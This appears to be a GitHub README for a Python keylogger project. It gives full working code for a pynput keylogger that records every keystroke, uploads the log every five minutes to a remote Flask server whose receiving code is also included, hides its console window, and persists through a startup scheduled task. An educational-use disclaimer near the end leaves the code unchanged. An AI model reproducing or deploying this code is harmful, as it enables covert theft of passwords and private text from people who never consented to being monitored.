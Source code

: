 # Keylogger Project

This project demonstrates a simple keylogger implemented in Python using the `pynput` library. The keylogger captures keystrokes and sends them to a remote server using Flask.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [How It Works](#how-it-works)
- [Ethical and Legal Notice](#ethical-and-legal-notice)
- [Contributing](#contributing)
- [License](#license)

## Installation

### Prerequisites

- Python 3.x
- `pynput` library
- `requests` library
- VMware Workstation Pro (for virtual environment)
- Flask (for the server)

### Step-by-Step Guide

1. **Clone the Repository:**

    ```bash
    git clone https://github.com/yourusername/keylogger-project.git
    cd keylogger-project
    ```

2. **Install Python Packages:**

    ```bash
    pip install pynput requests flask
    ```

3. **Set Up the Flask Server:**

    Create a file named `server.py` and add the following code:

    ```python
    from flask import Flask, request
    import os

    app = Flask(__name__)
    upload_folder = "key_logs"
    if not os.path.exists(upload_folder):
        os.makedirs(upload_folder)

    @app.route('/upload', methods=['POST'])
    def upload_file():
        if 'file' not in request.files:
            return "No file part", 400
        file = request.files['file']
        if file.filename == '':
            return "No selected file", 400
        file.save(os.path.join(upload_folder, file.filename))
        return "File uploaded successfully", 200

    if __name__ == "__main__":
        app.run(host='0.0.0.0', port=5000)
    ```

    Run the Flask server:

    ```bash
    python server.py
    ```

4. **Configure the Keylogger:**

    Create a file named `keylogger.py` and add the following code:

    ```python
    from pynput import keyboard
    import logging
    import os
    import requests
    import threading
    import time

    log_dir = ""
    log_file = os.path.join(log_dir, "key_log.txt")

    logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

    def on_press(key):
        try:
            logging.info(str(key))
        except AttributeError:
            logging.info('Special key {0} pressed'.format(key))

    def send_log_file():
        while True:
            if os.path.exists(log_file):
                with open(log_file, 'rb') as f:
                    requests.post("http://<server_ip>:5000/upload", files={'file': f})
            time.sleep(300)  # Send log file every 5 minutes

    if __name__ == "__main__":
        threading.Thread(target=send_log_file).start()
        with keyboard.Listener(on_press=on_press) as listener:
            listener.join()
    ```

    Replace `<server_ip>` with the IP address of your Flask server.

5. **Run the Keylogger in Background:**

    Create a file named `run_keylogger_in_background.py` and add the following code:

    ```python
    import subprocess

    def run_script_background(script_path):
        subprocess.Popen(["python", script_path], creationflags=subprocess.CREATE_NO_WINDOW)

    if __name__ == "__main__":
        script_to_run = "keylogger.py"  # Path to your keylogger script
        run_script_background(script_to_run)
    ```

6. **Create a Batch File:**

    Create a batch file named `run_keylogger.bat` and add the following code:

    ```batch
    @echo off
    python C:\path\to\run_keylogger_in_background.py
    ```

    Replace `C:\path\to` with the actual path to your script.

7. **Set Up Scheduled Task:**

    Use Windows Task Scheduler to create a scheduled task that runs the batch file at startup.

## Usage

1. Start the virtual machine in VMware.
2. Verify that the keylogger is running as a background task.
3. Check the Flask server's `key_logs` folder to see if log files are being received.

## How It Works

- **Keylogger Script:** Captures keystrokes and saves them to a log file.
- **Background Script:** Runs the keylogger in the background without showing a console window.
- **Batch File:** Executes the background script.
- **Flask Server:** Receives the log files from the keylogger and stores them.

## Ethical and Legal Notice

This project is intended for educational purposes only. Unauthorized use of keylogger software is illegal and unethical. Always obtain explicit consent before using any software that monitors or collects data.

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss your changes.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
